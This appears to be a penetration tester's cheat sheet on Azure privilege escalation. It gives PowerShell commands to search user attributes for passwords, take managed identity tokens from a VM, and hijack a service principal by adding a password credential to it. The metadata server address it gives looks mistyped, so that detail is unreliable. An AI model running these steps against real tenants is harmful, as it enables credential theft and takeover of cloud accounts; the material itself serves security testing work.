 # Azure Privilege Escalation

## Azure Privilege Escalation

#### Common things to look at :

* Key Vaults
* VMs
* Deployment scripts
* AD user attribute data
* Runbooks

### Managed Identities

VM access can have higher access than the actual user in Azure(ie permission for backup and so on) :

* VM can authenticate to Azure with a Managed Identity by requesting OAuth Token from Azure Metadata Server `http://169.254.169.54/metadata/identity/oauth2/token`
* RDP to the VM, request the token and connect to Azure using AZ cli or powershell

#### Resources

{% embed url="https://blog.netspi.com/azure-privilege-escalation-using-managed-identities/" %}

### User description Field

Same as AD Env, critical info can be found in description fields

```csharp
import-module MSOnline
Connect-MsolService
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | ForEach-Object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "password"){Write-Output ("[*]" + $user.UserPrincipalName +"[" + $prop + "]" + ":" + $user.$prop)}}}
```

### Service Principal Hijacking

* Over 200 default services principals in a O365 Tenant
* They are NOT listed in Azure Portal
* Different Permissions via "Microsoft Graph"
* Application Administrator can change password or certificats for service principal (include default service principal)

#### List service principal

```csharp
import-module Az 
Get-AzADServicePrincipal | Select-Object Displayname
```

![](../../../../.gitbook/assets/ce2232d0bbd54de3b4edaf39909bf813.png)

### Interesting Permissions

![](../../../../.gitbook/assets/610deb3ec4614a2794ef770ed2c3e7d6.png)

#### Resource

{% embed url="https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/" %}

### Service Principal password change

Application Admin cannot create new users to groups but can change password for Service Principal which are able to do it!

* Connect to Azure

```csharp
Connect-AzureAD
Get-AzureADServicePrincipal
Get-AzureADServicePrincipal -SearchString "Whatever"
```

![](../../../../.gitbook/assets/95623977625147aeb677475854f33ad1.png)

* Select the Service Principal and change his password

```csharp
New-AzureADServicePrincipalPasswordCredential  -ObjectId <OBJECT ID>  -EndDate "12-31-2099 12:00:00" -StartDate "12-31-2015 12:00:00" -Value "IvchangeThePassword:)"
```

![](<../../../../.gitbook/assets/ffbe6093a6c84b1a9b5214f7bd50efc8 (1).png>)

* Then connect using the SPN application ID and Password, and request a token on the following URL and copy the JWT token

[https://login.microsoftonline.com/TENAND\_ID/oauth2/v2.0/token](https://login.microsoftonline.com/16114b71-06fe-4e5c-a549-d03d6eade144/oauth2/v2.0/token)

![](../../../../.gitbook/assets/644c737c91f74ccaabe31c3afecac169.png)

* Enumerate permission account using SPN Object ID and the JWT

{% embed url="https://graph.microsoft.com/beta/servicePrincipals/OBJECT_IP_HERE\" %}

![](../../../../.gitbook/assets/d9b9755aef7a40a2a023cdb83fbfeb2b.png)

* list every SPN object ID

![](../../../../.gitbook/assets/ca8d06b3711a4c598f8a708fa9a1ee97.png)

* Use burp intruder to bruteforce every SPN accounts (create filter using "grep and extract")

![](../../../../.gitbook/assets/1e67bd65414d4feb93f7b3874d9cb3c8.png)

### Break Glass Admin accounts

Microsoft recommends to set up 2 admin accounts (one as 'Emergercy case') and disable MFA on it.

